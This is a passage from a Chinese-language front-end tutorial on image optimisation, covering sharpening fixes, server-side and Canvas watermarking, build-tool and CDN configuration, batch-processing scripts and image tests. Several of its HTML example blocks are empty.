  crop: 'limit',      // 限制最大尺寸不拉伸
})
// → https://.../post-cover.jpg?x-oss-process=resize,w_800/format,webp/quality,q_75
```

### 问题 11：图片模糊 / 锐化问题怎么解决？

图像在不同尺寸下可能出现模糊或过度锐化的问题，通常由以下原因导致：

| 问题现象 | 原因 | 解决方案 |
|---------|------|---------|
| **整体模糊** | 显示尺寸远大于实际像素 | 提供 2x/3x 高清源图或增大原图尺寸 |
| **文字边缘锯齿** | 有损压缩导致高频信息丢失 | 使用 PNG/WebP 无损模式；提高 quality 值 |
| **缩略图发虚** | 缩小时未做锐化处理 | CDN 增加 sharpen 参数 |
| **放大后马赛克** | 矢量图转栅格时分辨率不足 | 使用 SVG 或提供足够大的源文件 |
| **颜色断层** | 色深不足或压缩过度 | 使用 PNG-24 或提高 JPEG quality 到 85+ |

**CDN 锐化参数调优：**

```html
<!-- 阿里云 OSS：调整锐化强度 -->


<!-- Cloudinary：智能增强 -->


<!-- 综合优化链路：缩放 → 锐化 → 增强 → 输出 -->

```

**前端 CSS 锐化补偿（应急方案）：**

```css
/* 对低分辨率图像进行轻微锐化补偿 */
.image-sharp {
  /* 微妙的对比度提升可改善感知清晰度 */
  filter: contrast(1.05);
  
  /* 抗锯齿：让边缘更平滑 */
  image-rendering: -webkit-optimize-contrast;
  image-rendering: crisp-edges;
}

/* ⚠️ 注意：这是权宜之计，根本解决方案是提供高分辨率源图 */
```

### 问题 12：如何实现图片水印？

水印是保护版权的常见需求，可分为**客户端水印**和**服务端水印**两种方案。

::: warning 安全提醒
**纯前端（Canvas）水印可以被轻易去除！** 对于真正的版权保护，必须使用服务端水印。
:::

#### 方案 1：服务端水印（推荐）

**阿里云 OSS 图片水印：**

```html
<!-- 文字水印：右下角半透明文字 -->


<!-- 图片水印：平铺 Logo -->


<!-- 组合：先处理图片再加水印 -->

```

**Node.js (sharp) 服务端水印：**

```javascript
const sharp = require('sharp')
const path = require('path')

async function addWatermark(inputPath, outputPath, options = {}) {
  const {
    text = '© Your Brand',     // 水印文字
    logoPath = null,            // Logo 图片路径
    position = 'southeast',     // northwest | northeast | southwest | southeast | center
    opacity = 0.15,             // 透明度 0-1
    fontSize = 48,
    color = '#FFFFFF',
  } = options

  let pipeline = sharp(inputPath)

  // 图片水印
  if (logoPath) {
    const watermark = await sharp(logoPath)
      .ensureAlpha()
      .modulate({ brightness: 1, saturation: 1.0 })
      .png()
      .toBuffer()

    pipeline = pipeline.composite([{
      input: watermark,
      gravity: position,
      blend: 'over',
    }])
  } 
  // 文字水印（需系统安装字体）
  else {
    const textWidth = text.length * fontSize * 0.6
    const textHeight = fontSize * 1.5

    const textImage = await sharp({
      create: {
        width: textWidth,
        height: textHeight,
        channels: 4,
        background: { r: 0, g: 0, b: 0, alpha: 0 },
      }
    })
    .composite([{
      input: Buffer.from(`<svg xmlns="http://www.w3.org/2000/svg">
        <text x="0" y="${fontSize}" font-family="Arial,sans-serif" 
              font-size="${fontSize}" fill="${color}" opacity="${opacity}">
          ${text}
        </text>
      </svg>`),
      gravity: 'center',
    }])
    .png()
    .toBuffer()

    pipeline = pipeline.composite([{
      input: textImage,
      gravity: position,
      blend: 'over',
    }])
  }

  await pipeline.toFile(outputPath)
  console.log(`✓ Watermark added: ${outputPath}`)
}

// ===== 使用示例 =====
addWatermark(
  './uploads/photo.jpg',
  './output/photo-watermarked.jpg',
  {
    text: '© 2024 YourBrand.com · 仅供预览',
    position: 'southeast',
    opacity: 0.12,
    fontSize: 36,
    color: '#FFFFFF',
  }
)
```

#### 方案 2：前端 Canvas 水印（防截图用途）

```javascript
/**
 * CanvasWatermarker — 前端 Canvas 水印工具
 *
 * ⚠️ 注意：此方案仅用于防止普通用户直接保存图片，
 *    技术用户仍可通过开发者工具获取无水印原图。
 *    版权保护请使用服务端水印。
 */
class CanvasWatermarker {
  /**
   * 为图像添加全画布平铺水印
   * @param {HTMLImageElement} sourceImg - 源图像
   * @param {object} options - 水印配置
   * @returns {HTMLCanvasElement} 带水印的 Canvas
   */
  static tileWatermark(sourceImg, options = {}) {
    const {
      text = '© Internal Use Only',
      fontSize = 16,
      color = 'rgba(255, 255, 255, 0.08)',
      rotation = -25,
      gapX = 120,
      gapY = 60,
    } = options

    const canvas = document.createElement('canvas')
    const ctx = canvas.getContext('2d')

    canvas.width = sourceImg.naturalWidth
    canvas.height = sourceImg.naturalHeight

    // 绘制原始图像
    ctx.drawImage(sourceImg, 0, 0)

    // 配置水印样式
    ctx.font = `${fontSize}px Arial, sans-serif`
    ctx.fillStyle = color
    ctx.textAlign = 'center'
    ctx.textBaseline = 'middle'

    // 计算平铺位置
    for (let y = gapY / 2; y < canvas.height; y += gapY) {
      for (let x = gapX / 2; x < canvas.width; x += gapX) {
        ctx.save()
        ctx.translate(x, y)
        ctx.rotate((rotation * Math.PI) / 180)
        ctx.fillText(text, 0, 0)
        ctx.restore()
      }
    }

    return canvas
  }
}

// ===== 使用示例 =====

const img = document.querySelector('.protected-image')
img.onload = function() {
  const watermarked = CanvasWatermarker.tileWatermark(img, {
    text: `${currentUserName} · ${new Date().toLocaleDateString()} · 内部资料`,
    fontSize: 14,
    color: 'rgba(200, 200, 200, 0.06)',
  })

  // 替换原 img 为 canvas（或转为 dataURL）
  img.src = watermarked.toDataURL('image/jpeg', 0.92)
}
```

### 调试技巧

```javascript
// 检查图像加载状态
const img = document.querySelector("img")
img.addEventListener("load", () => {
  console.log("图像加载成功")
})
img.addEventListener("error", () => {
  console.error("图像加载失败")
})

// 检查所有图像的 alt 属性
document.querySelectorAll("img").forEach((img) => {
  if (!img.alt && !img.hasAttribute("alt")) {
    console.warn("缺少 alt 属性:", img.src)
  }
})

// 检查响应式图像
const responsiveImg = document.querySelector("img[srcset]")
if (responsiveImg) {
  console.log("当前使用的图像:", responsiveImg.currentSrc)
  console.log("所有可用图像:", responsiveImg.srcset)
}
```

## 图像处理工具链

以下流程图展示了现代前端项目中从原始图像到最终交付的完整优化流水线：



现代前端项目通常需要在构建过程中对图像进行自动化处理，包括压缩、格式转换、尺寸调整等。

### 构建工具集成

#### Webpack

```javascript
// webpack.config.js
const ImageMinimizerPlugin = require("image-minimizer-webpack-plugin")

module.exports = {
  module: {
    rules: [
      {
        test: /\.(jpe?g|png|gif|svg|webp)$/i,
        type: "asset/resource"
      }
    ]
  },
  optimization: {
    minimizer: [
      new ImageMinimizerPlugin({
        minimizer: {
          implementation: ImageMinimizerPlugin.imageminMinify,
          options: {
            plugins: [
              ["gifsicle", { interlaced: true }],
              ["jpegtran", { progressive: true }],
              ["optipng", { optimizationLevel: 5 }],
              [
                "svgo",
                {
                  plugins: [{ name: "removeViewBox", active: false }]
                }
              ]
            ]
          }
        },
        generator: [
          {
            type: "asset",
            implementation: ImageMinimizerPlugin.imageminGenerate,
            options: {
              plugins: [["webp", { quality: 80 }]]
            }
          }
        ]
      })
    ]
  }
}
```

#### Vite

```javascript
// vite.config.js
import viteImagemin from "vite-plugin-imagemin"

export default {
  plugins: [
    viteImagemin({
      gifsicle: { optimizationLevel: 3 },
      optipng: { optimizationLevel: 7 },
      mozjpeg: { quality: 80 },
      svgo: {
        plugins: [{ name: "removeViewBox", active: false }]
      },
      webp: { quality: 80 }
    })
  ]
}
```

### 图像 CDN 服务

使用图像 CDN 可以动态处理图像，按需提供不同尺寸和格式的图像。

#### 常见图像 CDN 服务

**国内服务：**

- 阿里云 OSS 图片处理
- 腾讯云 COS 数据万象
- 七牛云数据处理

**国际服务：**

- Cloudinary
- Imgix
- Cloudflare Images

#### 使用示例

**阿里云 OSS：**

```html
<!-- 原图 -->


<!-- 调整尺寸 -->


<!-- 格式转换 -->


<!-- 组合处理 -->

```

**Cloudinary：**

```html
<!-- 原图 -->


<!-- 调整尺寸 -->


<!-- 自动格式选择 -->

```

#### CDN 最佳实践

```html
<!-- ✅ 推荐：根据设备提供不同尺寸 -->


<!-- ✅ 推荐：自动格式选择 + 懒加载 -->

```

### 自动化脚本

#### Node.js 批量处理

```javascript
// scripts/optimize-images.js
const sharp = require("sharp")
const fs = require("fs").promises
const path = require("path")

async function optimizeImages(inputDir, outputDir) {
  const files = await fs.readdir(inputDir)

  for (const file of files) {
    if (!/\.(jpg|jpeg|png)$/i.test(file)) continue

    const inputPath = path.join(inputDir, file)
    const outputPath = path.join(outputDir, file)
    const webpPath = outputPath.replace(/\.(jpg|jpeg|png)$/i, ".webp")

    // 生成 JPEG
    await sharp(inputPath).jpeg({ quality: 80, progressive: true }).toFile(outputPath)

    // 生成 WebP
    await sharp(inputPath).webp({ quality: 80 }).toFile(webpPath)

    console.log(`✓ Processed: ${file}`)
  }
}

optimizeImages("./images/raw", "./images/optimized")
```

#### 响应式图像生成

```javascript
// scripts/generate-responsive.js
const sharp = require("sharp")

async function generateResponsiveImages(inputPath, outputDir, baseName) {
  const sizes = [400, 800, 1200, 1600]

  for (const width of sizes) {
    // JPEG
    await sharp(inputPath)
      .resize(width)
      .jpeg({ quality: 80 })
      .toFile(`${outputDir}/${baseName}-${width}.jpg`)

    // WebP
    await sharp(inputPath)
      .resize(width)
      .webp({ quality: 80 })
      .toFile(`${outputDir}/${baseName}-${width}.webp`)
  }
}

generateResponsiveImages("./hero.jpg", "./images/hero", "hero")
```

### 测试与验证

#### 图像性能测试

```javascript
// tests/image-performance.js
describe("Image Performance", () => {
  it("should have alt attributes", () => {
    const images = document.querySelectorAll("img")
    images.forEach((img) => {
      expect(img.hasAttribute("alt")).toBe(true)
    })
  })

  it("should use lazy loading for non-critical images", () => {
    const images = document.querySelectorAll('img:not([loading="eager"])')
    images.forEach((img) => {
      expect(img.loading).toBe("lazy")
    })
  })

  it("should have width and height attributes", () => {
    const images = document.querySelectorAll("img")
    images.forEach((img) => {
      expect(img.hasAttribute("width") && img.hasAttribute("height")).toBe(true)
    })
  })
})
```

#### Lighthouse CI 集成

```yaml
# .lighthouserc.js
module.exports = {
  assertions: {
    'image-alt': 'error',
    'image-aspect-ratio': 'error',
    'uses-webp-images': 'warn',
    'offscreen-images': 'warn',
    'uses-optimized-images': 'warn',
  },
};
```

## 参考资料与更多阅读

- MDN：[``: The Image Embed element](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/img)
- MDN：[Responsive images](https://developer.mozilla.org/zh-CN/docs/Learn/HTML/Multimedia_and_embedding/Responsive_images)
- MDN：[`<picture>`: The Picture element](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/picture)
- MDN：[`<figure>` 和 `<figcaption>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/figure)
- MDN：[图片文件类型与最佳实践](https://developer.mozilla.org/zh-CN/docs/Web/Media/Formats/Image_types)
- web.dev：[Serve images with correct size](https://web.dev/serve-images-with-correct-dimensions/)
- web.dev：[Use modern image formats](https://web.dev/uses-webp-images/)
- Can I use：[`srcset`、`picture`、`WebP`、`AVIF` 等特性支持情况](https://caniuse.com/)
